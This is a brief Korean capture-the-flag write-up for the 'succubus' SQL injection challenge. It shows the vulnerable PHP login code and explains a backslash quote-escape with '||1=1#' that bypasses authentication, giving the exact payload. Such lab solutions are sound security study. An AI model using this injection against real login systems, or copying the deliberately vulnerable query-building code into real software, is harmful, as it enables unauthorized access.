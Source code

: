 # Succubus

소스코드는 다음과 같다.

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

`'`을 우회해서, `id`와 `pw`를 모르는채로 로그인을 해야한다.

`\`을 이용해 `'`를 우회해주고 그 후에 `||1=1`을 통해 로그인을 시도해준다.
마지막은 `%23`인 `#`으로 마무리

> ?id=\&pw=||1=1%23

그러면 쿼리는 이렇게 된다.

```sql
select id from prob_succubus where id='\' and pw='||1=1#'
```